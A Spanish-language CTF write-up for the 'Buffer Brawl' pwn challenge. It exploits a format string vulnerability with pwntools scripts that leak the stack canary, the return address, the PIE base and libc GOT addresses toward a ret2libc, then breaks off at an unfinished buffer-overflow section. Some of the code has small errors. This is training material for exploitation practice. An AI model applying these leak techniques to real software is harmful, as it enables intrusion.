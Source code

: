# PWN / Buffer Brawl

Nos dan un juego en donde nos enfrentamos al stack y tenemos varias opciones:
```
Ladies and gentlemen...
Are you ready? For the main event of the CTF?
Introducing...
A challenge that packs a punch, tests your mettle, and overflows with excitement!
Let's get ready to buffeeeeeeeer!!!


Choose:
1. Throw a jab
2. Throw a hook
3. Throw an uppercut
4. Slip
5. Call off
```

Revisamos la seguridad del binario con checksec:
``` bash
checksec --file=buffer_brawl 
[*] '/home/kalcast/Descargas/buffer_brawl'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

No tiene nada relevante, pero sí encontramos una [vulnerabilidad de cadena formateada](https://owasp.org/www-community/attacks/Format_string_attack) en la funcion slip:
``` 
Ladies and gentlemen...
Are you ready? For the main event of the CTF?
Introducing...
A challenge that packs a punch, tests your mettle, and overflows with excitement!
Let's get ready to buffeeeeeeeer!!!


Choose:
1. Throw a jab
2. Throw a hook
3. Throw an uppercut
4. Slip
5. Call off
> 4

Try to slip...
Right or left?
%p
0x7ffca7cad6f0
```

El parámetro %p en una cadena de formato se utiliza para imprimir una dirección de memoria en formato hexadecimal, con varias podemos imprimir las direcciones de memoria en la pila.

Con este script filtramos las primeras 12 direcciones de memoria del stack y formateamos un poco la salida:

``` python
#leakstack.py
from pwn import *

elf = context.binary = ELF('./buffer_brawl')

io = process('./buffer_brawl')
io.sendline(b"4")
io.recvuntil(b"Right or left?\n")
io.sendline(b"%p"*14)
stack = io.recvline(keepends=False)
stack = [ 
         int(s,16) for s in stack.replace(b"(nil)",b"0x0").replace(b"0x",b" ").split()
         ]
print(stack)

for i, s in enumerate(stack):
    # i+1 because $ offsets start at 1
    print(f"{i+1}: {p64(s)} {hex(s)}") 
```

```
python3 leakstack.py 
[*] '/home/kalcast/Descargas/buffer_brawl'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Starting local process './buffer_brawl': pid 6996
[140732999497680, 29, 140658260300893, 0, 0, 8080988412483825701, 8080988412483825701, 8080988412483825701, 94602831163429, 94888781943153, 7242369383397573120, 94888781944032, 94888781940551, 36]
1: b'\xd0wq\xf4\xfe\x7f\x00\x00' 0x7ffef47177d0
2: b'\x1d\x00\x00\x00\x00\x00\x00\x00' 0x1d
3: b']\xd4\xa3\x8d\xed\x7f\x00\x00' 0x7fed8da3d45d
4: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
5: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
6: b'%p%p%p%p' 0x7025702570257025
7: b'%p%p%p%p' 0x7025702570257025
8: b'%p%p%p%p' 0x7025702570257025
9: b'%p%p\nV\x00\x00' 0x560a70257025
10: b'q\x11$\x04MV\x00\x00' 0x564d04241171
11: b'\x00\xc2\x93\x1d\x95\x10\x82d' 0x648210951d93c200
12: b'\xe0\x14$\x04MV\x00\x00' 0x564d042414e0
13: b'G\x07$\x04MV\x00\x00' 0x564d04240747
14: b'$\x00\x00\x00\x00\x00\x00\x00' 0x24
[*] Stopped process './buffer_brawl' (pid 6996)
```

Escribimos el stack en 6, 11 es el canario y 13 es la direccion de retorno al menú. Podemos comprobar esto en radare2 u otro debbugger:

![f1](https://github.com/user-attachments/assets/21c62cc0-ed0b-4073-8b97-935f0c10b5c0)

![return](https://github.com/user-attachments/assets/ef5625c9-3247-4e99-95db-0c8c4d64da63)

La primera imagen es el estado de la pila justo después de introducir la cadena, y la segunda es justo antes de ret. Como podemos observar efectivamente la décimo-tercera dirección filtrada es el retorno.

Para calcular la direccion base del ejecutable solo hay que restarle el desplazamiento de esa direccion a la direccion filtrada. Encontramos el desplazamiento en un análisis estático al elf.

![slipreturn](https://github.com/user-attachments/assets/385fe987-62a0-4462-8ffd-8362b0318bfa)

%<n>$p es un identificador de formato que nos permite imprimir un valor específico de la pila, donde n es el desplazamiento a a dirección actual del puntero de pila, contado a partir de 1.

Entonces, podemos obtener las direcciones que nos interesan con %11$p y %13$p y calcular la direccion base del ejecutable, por ahora el script iría quedando así:

``` python3
from pwn import *
exe = context.binary = ELF("buffer_brawl")
io = process(exe.path)

def stack_leak(p):
    io.sendline(b"4")
    io.recvuntil(b"Right or left?\n")
    io.sendline(p)
    return io.recvline(keepends=False)

cookie, exe_leak = stack_leak(b"%11$p %13$p").split()
cookie = int(cookie[2:], 16)                              # Canario
exe_leak = int(exe_leak[2:], 16)                          # Direccion filtrada
exe.address = exe_leak - 0x1747                           # desplazamiento de la direccion de retorno a la base
``` 

Aquí ahora necesitamos hacer un ret2libc, para eso necesitamos la dirección base de libc, pero primero tenemos que filtrar alguna dirección de las funciones de libc usadas en el ejecutable (printf, puts, etc...)

Nos auxiliaremos del parámetro %s, que muestra la memoria de una dirección dada en el stack (los símbolos de la Global Offset Table en tiempo de ejecución contienen la dirección real de la función en libc). El relleno con ljust se usa para alinear correctamente la memoria y asegurarse de que la dirección de la GOT esté en la posición adecuada:

``` python
# 2.Obtener la direccion base de libc
def leak_got(sym):
    addr = stack_leak(b"%7$s".ljust(8, b"_") + p64(exe.got[sym]))
    addr = u64(addr[:6] + b"\x00\x00")
    return addr

puts_addr = leak_got("puts")
io.info(f"{leak("puts")=:x}")

""""
# Usado para encontrar la version de libc correcta en el remoto
io.info(f"{leak_got("printf")=:x}")
io.info(f"{leak_got("read")=:x}")
io.info(f"{leak_got("exit")=:x}")
""" 

libc.address = puts_addr - libc.sym.puts
```
### Seccion incompleta

Bien, ahora necesitamos un buffer overflow para ganar una shell remota. Si dejamos la vida del stack en el juego a 13 exactamente nos lleva a una función stack_smash que acepta una entrada:

``` C
void stack_smash(void)

{
  long in_FS_OFFSET;
  undefined auStack_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nThe stack got dizzy! Now it\'s your time to win!");
  puts("Enter your move: ");
  __isoc99_scanf(&DAT_0010213d,auStack_28);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}
```


